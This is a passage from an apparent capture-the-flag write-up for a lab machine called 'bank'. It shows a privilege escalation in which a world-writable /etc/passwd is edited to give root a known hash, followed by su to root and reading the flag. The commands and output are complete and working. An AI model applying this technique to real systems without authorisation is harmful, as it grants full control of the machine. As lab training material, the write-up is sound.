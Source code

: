 Or by using the following command to find which files our current user can write:
```sh
find / -type f -writable 2>/dev/null
```

Since `/etc/passwd` is writable by www-data, let's change pwd of root user:
```sh
# generate hash for root password
openssl passwd root
$1$uvb7LtWt$tSoDZJ09HxN.8yT5waBXJ1

# edit /etc/passwd
nano /etc/passwd

# so it looks like that:
root:$1$uvb7LtWt$tSoDZJ09HxN.8yT5waBXJ1:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:112::/var/cache/bind:/bin/false
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false

```

Now login as root:
```sh
su root
password: root

root@bank:/tmp# cat /root/root.txt
cf4ec9cec1529be48677839c9f826310
root@bank:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@bank:/tmp# whoami
root
```


